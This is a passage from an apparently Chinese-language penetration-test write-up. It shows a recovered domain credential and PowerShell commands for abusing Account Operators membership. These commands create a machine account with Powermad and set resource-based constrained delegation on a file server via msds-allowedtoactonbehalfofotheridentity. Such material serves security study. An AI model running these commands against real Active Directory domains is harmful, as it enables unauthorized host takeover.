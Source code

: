 而后运行脚本即可获取密码。

不过发现一个更方便的工具，[https://github.com/JDArmy/SharpXDecrypt](https://github.com/JDArmy/SharpXDecrypt)

[![](assets/1706846898-4d6565ec0096e458d3e60327eb82fb97.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214118-69908bfe-c03e-1.png)

```plain
zhangxin admin4qwY38cc
```

## 利用 Acount Operators 组用户拿下主机

参考[https://xz.aliyun.com/t/11555?time\_\_1311=mqmx0DBD2Gqiw40vofDy7D9m6GOCDcGiG7oD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F50470#toc-18](https://xz.aliyun.com/t/11555?time__1311=mqmx0DBD2Gqiw40vofDy7D9m6GOCDcGiG7oD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F50470#toc-18)

使用`zhangxin`登录主机后打开`Powershell`，执行如下命令：

1、导入 Ps 脚本，创建机器用户`test3`

```plain
Set-ExecutionPolicy Bypass -Scope Process
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount test3 -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)
```

2、查询机器用户 SID 值

```plain
Get-NetComputer test3 -Properties objectsid
```

3、修改`FileServer`的修改`msds-allowedtoactonbehalfofotheridentity`的值

```plain
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3535393121-624993632-895678587-1116)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer FILESERVER| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```
